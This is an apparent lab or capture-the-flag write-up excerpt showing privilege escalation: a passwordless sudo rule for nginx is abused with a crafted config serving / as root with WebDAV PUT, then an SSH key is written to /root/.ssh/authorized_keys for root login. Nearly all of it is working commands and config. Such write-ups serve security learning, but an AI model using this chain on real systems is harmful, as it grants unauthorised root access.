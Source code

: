 (ALL : ALL) NOPASSWD: /usr/sbin/nginx

pwn.conf
`user root;`
`worker_processes 4;`
`pid /tmp/nginx.pid;`
`events {`
	`worker_connections 768;`
`}`
`http {`
	`server {`
		`listen 1337;`
		`root /;`
		`autoindex on;`
		`dav_methods PUT;`
	`}`
`}`
sudo nginx -c /tmp/pwn.conf
ss -tlpn

To verify that our malicious configuration is active, we check the open ports using ss :
We see that port 1337 is in fact open, so we proceed with the final step, which is writing our
public SSH key to /root/.ssh/authorized_keys .

niva@NLab:/tmp$ ssh-keygen

curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"

ssh -i root root@localhost

